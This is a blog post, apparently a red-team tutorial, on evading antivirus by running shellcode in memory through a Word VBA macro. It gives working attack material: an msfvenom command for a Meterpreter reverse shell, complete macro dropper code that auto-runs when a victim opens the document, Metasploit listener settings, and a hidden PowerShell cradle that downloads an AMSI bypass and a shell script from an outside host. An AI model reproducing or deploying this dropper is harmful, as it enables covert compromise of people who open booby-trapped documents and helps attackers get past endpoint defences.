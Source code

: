 ```yaml
---
layout: post
title: Running ShellCode in Memory | AV Evasion – VBA Version 

---
```

![](/images/2021-08-13-VBAShell/0.png)

If you try to download an executable to get a reverse shell on a system, it most likely will be detected and blocked by either host-based network monitoring system or AV/EDR sweeps it off, so this post we will discuss how to be stealthier and execute shell code in memory.

For the sake of this example, I am going to use a word macro as a dropper to do this.

Although it may seem complicated, all we need to do is:

**1) Use something to allocate unmanaged memory**

**2) Copy our shell code into our allocated memory from step 1**

**3) Create execution thread **

I have gone about doing these two ways:

**1) Using VBA**

**2) Using Powershell**

In this post, we will discuss how we can get this to work with VBA:

For this, we will use win32 APIs from kernal32.dll:

**1) VirtualAlloc**

**2) RtlMemory**

**3) CreateThread**


If you want to know more about these, please read the MSDN documentations.


Let’s just be optimistic and generate our shellcode using msfvenom:



```
msfvenom -p windows/meterpreter/reverse_http LHOST=x.x.x.x LPORT=443 EXITFUNC=thread -f vbapplication

```


***Couple of things to note here:***

a)	We are using 32bit arc for the meterpreter shell since MS word by default runs on 32-bit Arc

b)	We are using “thread” as exit func instead of “process” to avoid our MS word getting terminated when shell exits


***Read the MSDN docs to understand how the function used works:***

1)	[VirtualAlloc]( https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)
2)	[rtlmovememory](https://docs.microsoft.com/en-us/windows/win32/devnotes/rtlmovememory)
3)	[Create Thread]( https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread )


***The whole VBS looks like this:***

```
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
Dim buf As Variant
Dim addr As LongPtr
Dim counter As Long
Dim data As Long
Dim res As Long

buf = Array(insert shell code here)

addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

For counter = LBound(buf) To UBound(buf)
data = buf(counter)
res = RtlMoveMemory(addr + counter, data, 1)
Next counter

res = CreateThread(0, 0, addr, 0, 0, 0)

End Function

Sub Document_Open()
MyMacro
End Sub

Sub AutoOpen()
MyMacro
End Sub

```



![](/images/2021-08-13-VBAShell/1.png)

Once you have this, save the word document in macro format such as .doc or .docm

Set up the listener:

```
set payload windows/meterpreter/reverse_http
set LHOST x.x.x.x
set LPORT 443
set EXITFUNC thread
set set ReverseListenerBindAddress <internal IP>
exploit
```

Once, the victim opens the macro document the shell code runs in memory and we get a reverse shell:



![](/images/2021-08-13-VBAShell/2.png)


![](/images/2021-08-13-VBAShell/3.png)


Now this is a low-profile technique, but there are some issues with this:

**1)	The shell code present in word document which is saved on hard drive might get detected by the AV**

**2)	Whenever the word file is closed the session get terminated since the SPAWNED process is a child of word file.**

***How can we improve these and make things more efficient?***

I will write up on this in a different post, but I will give the folks reading this post a chance to try it for themselves, so here are some clues:

**1)	Use Powershell for this, Powershell cannot interact with win32 API directly, so use C# with the help of .NET framework (DllImportAttribute class).**

**2)	Use P/Invoke APIs contained in the System.Runtime.InteropServices and System namespaces (changing C to C# datatype)**

Ref: [P/Invoke](www.pinvoke.net )

**3)	Now use Add-Type in PowerShell to compile and create object **

Reference: [Add-Type Example](http://adamringenberg.com/powershell2/Add-Type/ )

**4)	Use .NET Copy method to copy the shellcode into memory**

**5)	Finally, before running the shell code in memory make sure to use an AMSI bypass to run first (use PowerShell download cradle)**

Something like this:

```
Sub ShellCodeRunner() 

Dim str As String
  
str = "powershell IEX (New-Object Net.WebClient).DownloadString('http://X.X.X.X/AmsiBypass.ps1'); IEX (New-Object Net.WebClient).DownloadString('http://X.X.X.X/Shell.ps1')"
Shell str, vbHide End Sub
```

You just need to craft the content of shell.ps1 as your homework :)






















